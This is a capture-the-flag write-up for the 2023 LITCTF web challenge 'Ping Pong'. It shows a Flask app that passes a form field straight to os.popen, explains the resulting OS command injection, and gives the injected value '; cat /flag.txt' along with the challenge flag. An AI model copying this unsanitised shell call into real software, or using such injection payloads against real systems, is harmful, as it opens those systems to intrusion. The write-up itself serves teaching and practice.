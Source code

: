 ```yaml
---
title: 2023 LITCTF - Ping Pong
author: thanguyen165
date: 2023-08-08 00:00:00 +0700
categories: [Write-ups, 2023_LITCTF]
tags: [Web Exploitation, OS command injection]
---
```


* 387 solves / 114 points
* Author: Ethan

## Description

> I made this cool website where you can ping other websites!

### Attached

[pingpong.zip](http://34.27.167.72/dl/?web%2FPing+Pong%2Fpingpong.zip=)

```py
from flask import Flask, render_template, redirect, request
import os

app = Flask(__name__)

@app.route('/', methods = ['GET','POST'])
def index():
    output = None
    if request.method == 'POST':
        hostname = request.form['hostname']
        cmd = "ping -c 3 " + hostname
        output = os.popen(cmd).read()

    return render_template('index.html', output=output)

```
{: file="pingpong.py" }

## Analyzation

When receiving ```hostname``` from ```POST``` method, the command will be executed without checking data from ```hostname```
```py
cmd = "ping -c 3 " + hostname
output = os.popen(cmd).read()
```

This leads to [command injection](https://owasp.org/www-community/attacks/Command_Injection).

## Solution

POST the ```hostname```
```
; cat /flag.txt
```

The flag is
```
LITCTF{I_sh0uld_b3_m0r3_c4r3ful}
```